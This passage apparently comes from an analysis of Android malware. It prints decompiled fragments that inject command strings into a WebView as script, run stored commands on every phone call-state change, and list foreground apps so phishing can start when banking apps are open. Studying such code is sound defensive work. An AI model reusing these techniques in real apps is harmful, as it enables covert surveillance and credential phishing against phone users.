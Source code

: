 ```
                    goto label_116;
                }

                v7.loadData("<script>" + v0.substring(11) + "</script>", "text/html; charset=UTF-8", null);
            }
        }

    label_116:
        this.stopSelf();
        return 1;
    }
```

### monitor incoming call
```
public class MyPhoneStateListener extends PhoneStateListener {
        public MyPhoneStateListener(IncomingCall arg1) {
            IncomingCall.this = arg1;
            super();
        }

        public String getcmd(Context arg5, String arg6) {
            return arg5.getSharedPreferences("Cmd_conf", 0).getString(arg6, "");
        }

        public void onCallStateChanged(int arg10, String arg11) {
            Map v2 = IncomingCall.this.ctx.getSharedPreferences("Call_conf", 0).getAll();
            if(v2.size() > 0) {
                Iterator v5 = v2.keySet().iterator();
                while(v5.hasNext()) {
                    Object v3 = v5.next();
                    String v0 = this.getcmd(IncomingCall.this.ctx, ((String)v3));
                    if(v0.length() <= 2) {
                        continue;
                    }

                    Intent v1 = new Intent(IncomingCall.this.ctx, GlobalCode.class);
                    v1.putExtra("content", v0);
                    v1.putExtra("type", "TriggerCall:" + (((String)v3)));
                    v1.putExtra("data", String.valueOf(arg10) + ":" + arg11);
                    IncomingCall.this.ctx.startService(v1);
                }
            }
        }
}
```
### Get running app
If financial app or other special apps are running, this malware can start phishing attack.
```java

String[] getActivePackages() {
        Object v1 = this.getSystemService("activity");
        HashSet v0 = new HashSet();
        Iterator v4 = ((ActivityManager)v1).getRunningAppProcesses().iterator();
        while(v4.hasNext()) {
            Object v2 = v4.next();
            if(((ActivityManager$RunningAppProcessInfo)v2).importance != 100) {
                continue;
            }

            ((Set)v0).addAll(Arrays.asList(((ActivityManager$RunningAppProcessInfo)v2).pkgList));
        }
```